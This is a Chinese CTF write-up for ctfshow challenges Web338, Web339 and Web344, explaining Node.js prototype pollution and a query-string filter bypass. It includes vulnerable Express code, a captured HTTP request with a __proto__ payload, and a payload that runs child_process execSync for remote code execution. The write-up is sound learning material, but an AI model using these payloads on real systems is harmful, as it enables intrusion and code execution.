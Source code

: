 # 写在前面

图片如果不是科学上网，可能由于网速原因看不见，如果需要看图可以点击图片链接

# Web338

首先从入口文件看起，`app.js`，发现两个关键路径

```javascript
app.use('/', indexRouter);
app.use('/login', loginRouter);
```

当然主页就不用看了，直接看关键部分，login，从当中我们不难得出需要让`secert.ctfshow==='36dboy'`即可获取flag，这里很简单，原型链污染嘛

```javascript
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  } 
});
```

其中涉及到这一部分的利用函数就是`copy`，这是一个递归调用函数，for循环遍历object2当中的key(键)，如果这个键在object1与object2当中都存在，则调用`copy(object1[key], object2[key])`,否则让`object1[key] = object2[key]`

```javascript
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

那如果我们让`object2`为`{"__proto__":{"ctfshow":"36dboy"}}`会发生什么（注意本题当中object1为secret变量）

由于`object1和object2`的对象都具有属性`__proto__`,进入if语句为true，执行

`copy(object1[__proto__], object2[__proto__])`

此时`let key in object2`的`key`为`ctfshow`很明显object1当中没有，所以进入else部分

`object1[ctfshow] = object2[ctfshow]`，成功赋值为`36dboy`

Burpsuite发送请求包即可获取flag

```
POST /login HTTP/1.1
Host: 4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show
Content-Length: 34
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Content-Type: application/json
Origin: http://4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show
Referer: http://4ffe41ca-e762-4c9a-b7e1-56edabb0ab85.chall.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=176b20985423e8-07d414625df175-3323765-144000-176b209854358f
Connection: close

{"__proto__":{"ctfshow":"36dboy"}}
```



# Web339

这道题开始麻烦起来了，先来分析思路，首先列出本题利用所需要的关键代码

首先是login.js

```
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow===flag){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
});
```

之后是api.js

```
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');


// var query = "return global.process.mainModule.constructor._load('child_process').execSync('whoami');";
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  res.render('api', { query: Function(query)(query)});
   
});
module.exports = router;
```

我们发现在api.js当中`Function里的query变量没有被引用`，如果我们能够通过原型污染攻击给它赋任意我们想要的值会怎样？？岂不是可以随意执行代码进行RCE了

首先给出我的payload吧，当然嫌麻烦的话里面可以搞成反弹shell的，看自己

```
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').execSync('cat routes/login.js');"}}
```

通过调试我发现污染到了this,在nodejs当中其指向module.exports，最外层调用的时候会指向global，具体原因还不知道，未来希望能够破解，暂时水平受限，反正看到query到了全局变量里面

![CTFSHOW-WEB339](./pic/CTFSHOW-WEB339.png)

之后我们前往`url/api`界面发起post包即可获得flag



# Web344

代码审计，需要query当中的name，password与isVIP符合条件，本来传入`query={"name":"admin","password":"ctfshow","isVIP":true}`即可但是这道题过滤了2c也就过滤了`%2c(逗号)`(req.url获取的值是url编码后的所以逗号会变成%2c)

```
router.get('/', function(req, res, next) {
  res.type('html');
  var flag = 'flag_here';
  if(req.url.match(/8c|2c|\,/ig)){
  	res.end('where is flag :)');
  }
  var query = JSON.parse(req.query.query);
  if(query.name==='admin'&&query.password==='ctfshow'&&query.isVIP===true){
  	res.end(flag);
  }else{
  	res.end('where is flag. :)');
  }
});
```

Nodejs的一个小特性吧，这样他会把三个部分拼接在一起

```
由于"的url编码为%22与c又合成了2c所以c需要编码
query={"name":"admin"&query="password":"%63tfshow"&query="isVIP":true}
```

